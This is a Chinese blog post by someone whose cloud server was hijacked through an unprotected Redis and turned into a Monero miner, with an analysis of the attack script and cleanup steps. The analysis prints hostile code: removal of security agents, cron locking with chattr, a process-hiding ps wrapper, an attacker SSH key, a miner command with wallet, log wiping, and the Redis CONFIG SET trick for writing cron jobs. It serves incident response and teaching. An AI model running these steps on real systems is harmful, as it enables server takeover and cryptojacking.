

今天快吃午饭，收到了云服务器运营商发来的短信，告知我余额不足以支撑3天。我寻思着按我之前的消费情况，里面的余额够我用很久呢，怎么突然就不够了。在半小时的排查后，发现了自己的云主机竟然已经成为了别人的矿机，这和我之前某一次线上遇到的场景极为相似。 

<!--more-->

# 缘起
由于事发突然，每小时都在走RMB，中间也没想起来截图-，-就以文字的形式记录下来。  

事情是这样的，腾讯云给我发来余额预警之后，由于我设置的是按流量算钱的，我第一反应就是我流量被偷跑了。由于本身没有运行什么服务。再加上比较谨慎，出口带宽被设置的比较小，所以平时每月也就1毛钱左右的花费。一夜之间竟然偷跑了我十几块。  
于是我立刻登录腾讯云，看到即使到现在，流量也依然持续在每分钟10MB左右。  
立刻远程登录云主机，利用top、iptop等命令一通操作，结果内容却比较和谐，查看`/var/log/secure`等日志发现所有的安全日志、操作日志之类的已经被全部清空了。  

考虑到昨天刚把redis的保护密码去掉，就立刻客户端登录redis，发现里面的key都被清掉了，只留了几个backup1、backup2之类的。这些的值形似`\n\n* * * * /bin/bash -i>& xxxxxx`。看上去很像cron表达式。 

这样的话，赶紧去查看系统的定时任务：
```
crontab -l
```
里面果然有一条，是定时下载某一网址下的`.sh`脚本并执行的任务。于是，我将这个脚本下载下来(脚本在<a target="_blank" href="init.sh.DoNotExec">这里</a>，本来是没有“DoNotExec”后缀的，为了防止误执行，我删掉了指定脚本命令解释器的标记，在开头增加了直接退出的命令，同时去掉了文件的可执行属性)。  

本着要删掉病毒，首先要防止病毒复活，那么首先就要把这个定时任务先关掉。但是修改crontab脚本后，却无法保存，提示`Operation not permitted`。这就很恼火

# 脚本分析
打开该脚本文件之后，长度近1000行，大致浏览了一下，发现有500多行都是一个函数，这个函数也是十分搞笑，待会儿来说。  

这个脚本开头将Linux的安全子系统SeLinux关闭了，然后将常用的几个命令改了个名字：
```bash
setenforce 0 2>dev/null
echo SELINUX=disabled > /etc/sysconfig/selinux 2>/dev/null
sync && echo 3 >/proc/sys/vm/drop_caches
mv /usr/bin/curl /usr/bin/url
mv /usr/bin/url /usr/bin/cd1
mv /usr/bin/wget /usr/bin/get
mv /usr/bin/get /usr/bin/wd1
mv /usr/bin/cur /usr/bin/cd1
mv /usr/bin/cdt /usr/bin/cd1
mv /usr/bin/wge /usr/bin/wd1
mv /usr/bin/wdt /usr/bin/wd1
```
也不知道将这几个名字反复mv来mv去到底有什么意义。 此外drop_caches似乎是用来清理缓存的，意思是接下来病毒要干一番大的了么。  

接下来，这个脚本又卸载了阿里云和腾讯云的防护程序：
```bash
if ps aux | grep -i '[a]liyun'; then
  $bbdir http://update.aegis.aliyun.com/download/uninstall.sh | bash
  $bbdir http://update.aegis.aliyun.com/download/quartz_uninstall.sh | bash
  $bbdira http://update.aegis.aliyun.com/download/uninstall.sh | bash
  $bbdira http://update.aegis.aliyun.com/download/quartz_uninstall.sh | bash
  pkill aliyun-service
  rm -rf /etc/init.d/agentwatch /usr/sbin/aliyun-service
  rm -rf /usr/local/aegis*
  systemctl stop aliyun.service
  systemctl disable aliyun.service
  service bcm-agent stop
  yum remove bcm-agent -y
  apt-get remove bcm-agent -y
elif ps aux | grep -i '[y]unjing'; then
  /usr/local/qcloud/stargate/admin/uninstall.sh
  /usr/local/qcloud/YunJing/uninst.sh
  /usr/local/qcloud/monitor/barad/admin/uninstall.sh
fi
```
这里我就要吐槽一下腾讯云了，明明卸载的时候你都知道了，为什么不给我发个消息呢？非要等到余额不足的时候你才能提醒我。    


接下来配置一些挖矿时需要的配置文件之类的，就要开始重头戏了。 
```bash
miner_url="http://199.xx.xx.117/b2f628/zzh"
miner_url_backup="http://106.xx.xx.113/b2f628/zzh"
miner_size="7600464"
sh_url="http://199.xx.xx.117/b2f628/newinit.sh"
sh_url_backup="http://106.xx.xx.113/b2f628/newinit.sh"
config_url="http://199.xx.xx.117/b2f628/config.json"
config_url_backup="http://106.xx.xx.113/b2f628/config.json"
config_size="2732"
chattr_size="8000"
rm -f /tmp/.null 2>/dev/null
```
接下来是2个shell函数，并执行他们。

第1个shell函数叫做`kill_miner_proc()`。它有500多行，稍微看了一下内部的命令，大致是在查找和kill各种进程。所以，如果我料想的不错的话，这个脚本不但要自己挖矿，还要对已经存在宿主机上的其他挖矿程序赶尽杀绝。也是搞笑  

第2个`kill_sus-proc()`就比较简单了大致功能是杀死其他无用的程序，为挖矿多腾点资源。  

再然后定义了`lock_cron()`和`unlock_cron()`两个函数，看来这就是我无法删除cron的原因了。
```bash
unlock_cron()
{
    chattr -R -ia /var/spool/cron
    chattr -ia /etc/crontab
    chattr -R -ia /var/spool/cron/crontabs
    chattr -R -ia /etc/cron.d
}
lock_cron()
{
    chattr -R +ia /var/spool/cron
    chattr +ia /etc/crontab
    chattr -R +ia /var/spool/cron/crontabs
    chattr -R +ia /etc/cron.d
}
```
这里利用`chattr`命令（应该是change attribute的意思吧），应该和Windows上的`attrib`指令比较像，通过指定+ia或-ia标识该文件添加或移除“不可修改（i)”和“只能追加（a)”两个属性，从而保护内部数据不被修改。  

接下来利用几个对象代理ps、top等指令，这样既可以避免自己的进程暴露，也能够让运维人员通过这几个指令重新唤醒病毒：
```bash
mv /bin/ps /bin/ps.or
sleep 1
mv /bin/ps.or /bin/ps.original	
echo "#! /bin/bash">>/bin/ps
echo "ps.original \$@ | grep -v \"zzh\|pnscan\"">>/bin/ps
chmod +x /bin/ps
```
（同样也是蜜汁操作，不知道为什么要先重命名为ps.or再命名为ps.original）。

最后就是在它的运行时文件夹`$rtdir`。如果文件夹不存在就将下载下来存在`/tmp`下的几个文件挪过来。  
然后就是配置定时任务保活：
```bash
unlock_cron
rm -f ${crondir}
rm -f /etc/cron.d/zzh
rm -f /etc/crontab
echo "*/30 * * * * sh /etc/newinit.sh >/dev/null 2>&1" >> ${crondir}
echo "*/40 * * * * root sh /etc/newinit.sh >/dev/null 2>&1" >> /etc/cron.d/zzh
echo "0 1 * * * root sh /etc/newinit.sh >/dev/null 2>&1" >> /etc/crontab
echo crontab created
lock_cron
```
添加ssh证书
```bash
chmod 700 /root/.ssh/
echo >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCmEFN80ELqVV9enSOn+05vOhtmmtuEoPFhompw+bTIaCDsU5Yn2yD77Yifc/yXh3O9mg76THr7vxomguO040VwQYf9+vtJ6CGtl7NamxT8LYFBgsgtJ9H48R9k6H0rqK5Srdb44PGtptZR7USzjb02EUq/15cZtfWnjP9pKTgscOvU6o1Jpos6kdlbwzNggdNrHxKqps0so3GC7tXv/GFlLVWEqJRqAVDOxK4Gl2iozqxJMO2d7TCNg7d3Rr3w4xIMNZm49DPzTWQcze5XciQyNoNvaopvp+UlceetnWxI1Kdswi0VNMZZOmhmsMAtirB3yR10DwH3NbEKy+ohYqBL root@puppetserver" > /root/.ssh/authorized_keys
```
然后下载和准备挖矿用的配置文件，还计算了我云主机的CPU核数，要根据核数开线程，啧啧啧。  

最后就是启动矿机了。  
```bash
./zzh -B --log-file=/etc/etc --coin=monero -o stratum+tcp://xmr-asia1.nanopool.org:14444 --threads=$cpunum -u 43Xbgtym2GZWBk87XiYbCpTKGPBTxYZZWi44SWrkqqvzPZV6Pfmjv3UHR6FDwvPgePJyv9N5PepeajfmKp1X71EW7jx4Tpz -p x &
```

也不知道为啥准备了半天的配置文件，最后直接在命令上把主要配置都写上去了。 

然后清理了一下我的防火墙，也不知道为啥这几个端口的OUT TCP要drop掉，我看人家都还写了INPUT的ip。
```bash
iptables -F
iptables -X
iptables -A OUTPUT -p tcp --dport 5555 -j DROP
iptables -A OUTPUT -p tcp --dport 7777 -j DROP
iptables -A OUTPUT -p tcp --dport 9999 -j DROP
iptables -A OUTPUT -p tcp --dport 9999 -j DROP
service iptables reload
```
最后就是擦屁股环节了。难怪所有的记录全都消失了。
```bash
history -c
echo > /var/spool/mail/root
echo > /var/log/wtmp
echo > /var/log/secure
echo > /root/.bash_history
```

# 清除
把脚本看完，大致的流程就知道了。逆向清理即可。
当然，首先要将Redis的密码加上。我本来是设了密码的，图省事，就在redis-cli中通过`CONFIG SET requirepass ""`将密码临时去掉了，所以重启redis即可。
```bash
systemctl restart redis-server
```
如果没有设置过密码的话，快去conf文件中将`requirepass`开启，并设置复杂的密码。  


下面如果有删除不掉的，一律都先通过`chattr`修改只读属性之后，再删除。  
首先先通过恢复定时任务表的控制权，并清理定时任务：
```bash
chattr -ia /var/spool/cron/crontabs/root
# 除了删除该文件，也可以vi进去之后删除内容，保留该文件
# crontab -e 然后dd后:wq!
rm -f /var/spool.cron/chontabs/root
```
接下来恢复系统命令，`top`和`pstree`等同理：
```bash
rm -f /bin/ps
mv /bin/ps.origin /bin/ps
```
然后通过ps和top将启动的一些进程杀死，比如`zzh`、`pnscan`和不知道什么时候开启的`redis-cli`等（`redis-cli`据说是`pnscan`开启用来连接别的主机用于植入病毒的）
```bash
killall zzh
killall pnscan
killall redis-cli

# kill -9 ${pid}
```
注意到脚本中启动了服务，所以服务也要删掉
```bash
rm -f /lib/systemd/system/systemd-update-daily
```
然后在`kill_miner_proc`函数中，还发现几个执行程序，也把他们删掉，并注意一下进程中如果有的话，也把他们关掉。
```bash
rm -f /etc/svc*
rm -f /etc/php*
rm -f /etc/zzh*
rm -f /etc/*.sh
```
接下来删除黑客的ssh证书
```bash
# 我的证书放在各个账户下面了，这里是空的，所以直接*了
rm -f /root/.ssh/*
```
最后根据病毒脚本，将一些没用的配置项和/tmp下的临时文件都删掉
```bash
rm -f /etc/*.json
rm -fR /tmp/*
```
这样病毒就差不多清理完了。
然后有需要的话，恢复iptables、selinux等。被卸载的云主机守护程序，也可以在云主机运营商的网站上找到恢复的教程。（腾讯云的在[这里](https://cloud.tencent.com/document/product/296/12236)）。 

# Redis后门原理
这个原理其实很简单。大部分redis服务都是在root权限下的，所以其实redis是有全局的读写权限的。  
而且redis本身在客户端就可以通过`CONFIG GET/SET`指令获取或修改配置，在没有密码保护的情况下，这个是很危险的。  
通常黑客在发现redis服务可以访问（无密码或弱密码）后，首先会通过这样的手段修改redis的rdb文件路径和名字：
```bash
config set dir /var/spool/cron
config set dbfilename root
```
没错，将rdb文件修改为root用户的定时任务文件。  
然后写入几个key，并保存。
```bash
set xxoo "\n\n*/1 * * * * somecommand"
save
```
这样一个指令somecommand就以rdb的形式保存到了定时任务中。  
这个somecommand可以是一个反弹shell的命令（定时一定时间后，让这台肉鸡主动连接到自己机器上，反弹出shell让自己可以操作肉鸡）；而更为普遍的是自动下载一个脚本并自动运行，也就是我所遭遇的这个。  
可以想见，通过全网扫描redis端口，尝试连接发现没有密码，通过rdb设置定时任务，自动下载病毒初始化脚本，下载配置文件启动矿机程序，挖到矿自动转移到自己的钱包中。这一系列行为都可以自动化完成，天知道有多少主机沦为了矿机、肉鸡。  
而这一经历也告诉我，暴露在公网上的东西有多危险，一定要设好密码，加强防范。  

可以看到，最近被扫描的密度还是蛮高的。
  